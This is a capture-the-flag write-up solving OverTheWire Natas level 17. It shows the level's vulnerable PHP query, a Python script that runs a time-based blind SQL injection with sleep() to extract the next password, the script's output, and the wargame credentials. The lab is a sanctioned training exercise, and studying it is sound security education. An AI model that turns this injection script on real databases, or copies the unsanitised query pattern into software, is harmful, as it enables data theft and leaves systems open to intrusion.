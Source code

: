 # Natas Level 17
```bash
Username: natas17
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
URL:      http://natas17.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas17.png" />
    <div align="center">Natas 17</div>
</figure>

Clicking on the "View sourcecode" link:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas17-view-sourcecode.png" />
    <div align="center">Natas 17 - View sourcecode</div>
</figure>

Lets check the script:
```php
/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas17', '<censored>'); 
    mysql_select_db('natas17', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
        if(mysql_num_rows($res) > 0) { 
            //echo "This user exists.<br>"; 
        } else { 
            //echo "This user doesn't exist.<br>"; 
        } 
    } else { 
        //echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
}
```

The difference from level 15 is that here we dont get the echo.

Luckily, we can use time measurement in order to extract the imfornation.

With this python code:
```python
import requests
import string
import time

URL = "http://natas17.natas.labs.overthewire.org/index.php?username=natas18\" and SUBSTR(password, %d, 1) >= binary \"%s\" and sleep(0.3) -- "
auth = ('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')

password = ''
c = string.digits + string.ascii_uppercase + string.ascii_lowercase

while len(password) < 32:
    i = 0
    j = len(c)-1

    while True:
        start = time.time()
        r = requests.get(URL % (len(password)+1, c[(i + j) // 2]), auth=auth)
        end = time.time()

        if abs(j - i) < 2:
            start = time.time()
            r = requests.get(URL % (len(password)+1, c[j]), auth=auth)
            end = time.time()
            if end - start > 0.3:
                password += c[j]
            else:
                password += c[i]
                print password + "*" * (32 - len(password))
                break

        if end - start > 0.3:
            i = (i + j) // 2
        else:
            j = (i + j) // 2

print "Password for natas18 is:", password
```

We get the output:
```bash
x*******************************
xv******************************
xvK*****************************
xvKI****************************
xvKIq***************************
xvKIqD**************************
xvKIqDj*************************
xvKIqDjy************************
xvKIqDjy4***********************
xvKIqDjy4O**********************
xvKIqDjy4OP*********************
xvKIqDjy4OPv********************
xvKIqDjy4OPv7*******************
xvKIqDjy4OPv7w******************
xvKIqDjy4OPv7wC*****************
xvKIqDjy4OPv7wCR****************
xvKIqDjy4OPv7wCRg***************
xvKIqDjy4OPv7wCRgD**************
xvKIqDjy4OPv7wCRgDl*************
xvKIqDjy4OPv7wCRgDlm************
xvKIqDjy4OPv7wCRgDlmj***********
xvKIqDjy4OPv7wCRgDlmj0**********
xvKIqDjy4OPv7wCRgDlmj0p*********
xvKIqDjy4OPv7wCRgDlmj0pF********
xvKIqDjy4OPv7wCRgDlmj0pFs*******
xvKIqDjy4OPv7wCRgDlmj0pFsC******
xvKIqDjy4OPv7wCRgDlmj0pFsCs*****
xvKIqDjy4OPv7wCRgDlmj0pFsCsD****
xvKIqDjy4OPv7wCRgDlmj0pFsCsDj***
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh**
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd*
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
Password for natas18 is: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
```

We got the password for the next level: **xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP**